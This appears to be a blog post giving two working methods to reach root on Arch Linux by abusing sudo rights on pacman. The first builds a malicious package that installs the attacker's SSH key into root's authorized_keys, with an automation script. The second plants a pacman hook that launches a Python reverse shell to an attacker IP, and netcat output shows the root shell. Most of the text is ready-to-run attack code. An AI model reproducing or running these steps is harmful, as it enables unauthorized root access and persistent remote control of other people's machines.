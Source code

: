 ```yaml
---
title: Privilege Escalation via Pacman
author: Saad
date: 2024-11-19 00:00:00 +0500
categories:
  - OS
  - Arch
tags:
  - privesc
  - pacman
  - arch
  - privilege escalation
  - pacman privesc
  - makepkg
  - malicious pkg
  - abusing pacman
  - root via pacman
image: pacman.jpg
media_subpath: /assets/img/pacman
---
```


Privilege escalation with `pacman`.
If the user has sudo permission to run `pacman`, we can easily escalate privileges to root.
```bash
[skid@arch]$ sudo -l 
User skid may run the following commands on arch:    
 (ALL : ALL) NOPASSWD: /usr/bin/pacman
```
## I

### Required stuff

First, create a directory and name it whatever you want:
```bash
[skid@arch]$ mkdir priv && cd priv
[skid@arch priv]$ nano PKGBUILD
```

In the `PKGBUILD` file, add the following content:
```bash
pkgname=privesc
pkgver=1.0
pkgrel=1
pkgdesc="Privilege escalation"
arch=('any')
url="http://example.com"
license=('GPL')
depends=()
makedepends=()
source=('authorized_keys')
sha256sums=('SKIP')
package() {
  install -Dm755 "$srcdir/authorized_keys" "$pkgdir/root/.ssh/authorized_keys"
}
```

### SSH Access
Now, generate SSH keys on the target machine, and rename `id_rsa.pub` to `authorized_keys`:
```bash
[skid@arch]$ ssh-keygen -t rsa -b 4096 -f id_rsa -N "" 
```

```bash
[skid@arch]$ mv id_rsa.pub authorized_keys
```

> This malicious package script is designed to add our public SSH key to root's authorized_keys.

### Execute it
Next, run `makepkg` in the directory containing the `PKGBUILD` script:
```bash
[skid@arch priv]$ makepkg
```

After generating the package, transfer the `id_rsa` private key to your own machine and set its permissions to `600`:
```bash
[skid@arch] chmod 600 id_rsa
```

The `makepkg` command should produce a `.zst` file, such as `privesc-1.0-1-any.pkg.tar.zst`. Finally, install this package with `pacman`:
```bash
[skid@arch priv]$ sudo /usr/bin/pacman -U /home/skid/priv/privesc-1.0-1-any.pkg.tar.zst
```
This will add your SSH key to the root user's authorized_keys, allowing root access via SSH.

### Bash Script
Just a bash script to do all the crap in snap.
```bash
#!/bin/bash

# Create a working directory
mkdir priv && cd priv

# Generate PKGBUILD file
cat <<EOF >PKGBUILD
pkgname=privesc
pkgver=1.0
pkgrel=1
pkgdesc="Privilege Escalation Package"
arch=('any')
url="http://example.com"
license=('GPL')
depends=()
makedepends=()
source=('authorized_keys')
sha256sums=('SKIP')
package() {
  install -Dm755 "\$srcdir/authorized_keys" "\$pkgdir/root/.ssh/authorized_keys"
}
EOF

# Generate SSH keys
ssh-keygen -t rsa -b 4096 -f id_rsa -N ""
mv id_rsa.pub authorized_keys

# Build the malicious package
makepkg

# Output message
echo "Malicious package created! Run the following command to deploy:"
echo "sudo pacman -U $(pwd)/privesc-1.0-1-any.pkg.tar.zst"
echo "Don't forget to secure your private key: id_rsa"

```

## II

### Required stuff

Make a copy of pacman:
```bash
[skid@arch] cp /etc/pacman.conf /dev/shm/pacman.conf
```

Edit it and update the `HookDir` under `[options]`
```bash
[skid@arch] nano /dev/shm/pacman.conf
```
Like this:
```bash
<SNIP>
[options]
# The following paths are commented out with their default values listed.
# If you wish to use different paths, uncomment and update the paths.
#RootDir     = /
#DBPath      = /var/lib/pacman/
#CacheDir    = /var/cache/pacman/pkg/
#LogFile     = /var/log/pacman.log
#GPGDir      = /etc/pacman.d/gnupg/
HookDir     = /dev/shm/hooks/
<SNIP>
```
> Uncomment `#HookDir`, make sure it's not commented out else you won't be shelling the arch skids.

### test.hook
Create a directory to hold hooks:
```
[skid@arch]$ mkdir /dev/shm/hooks 
```
Then create a `test.hook`:

`test.hook`
```bash
[Trigger]
Operation = Install
Operation = Upgrade
Operation = Remove
Type = Package
Target = *

[Action]
When = PreTransaction
Exec = /bin/sh -c "python3 /dev/shm/shell.py IP 9001 &"
```
`shell.py`

```py
#!/usr/bin/env python
import os
import socket
import sys
import pty

if os.fork() == 0:
    cb = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    cb.connect((sys.argv[1], int(sys.argv[2])))

    os.dup2(cb.fileno(), 0)
    os.dup2(cb.fileno(), 1)
    os.dup2(cb.fileno(), 2)

    pty.spawn("/bin/sh")

    cb.close()
```
### Executing it

Now we have all what we need, let's remove a pkg. 
I'll remove chromium.

```bash
[skid@arch]$ sudo /usr/bin/pacman --config /dev/shm/pacman.conf -R chromium
```
On the other hand, there is a shell:

```
[seadris@skid.com]➜ ~ nc -nvlp 9001
listening on [any] 9001 ...
connect to [10.10.14.x] from (UNKNOWN) [10.129.x.x] 50666
sh-5.2#
```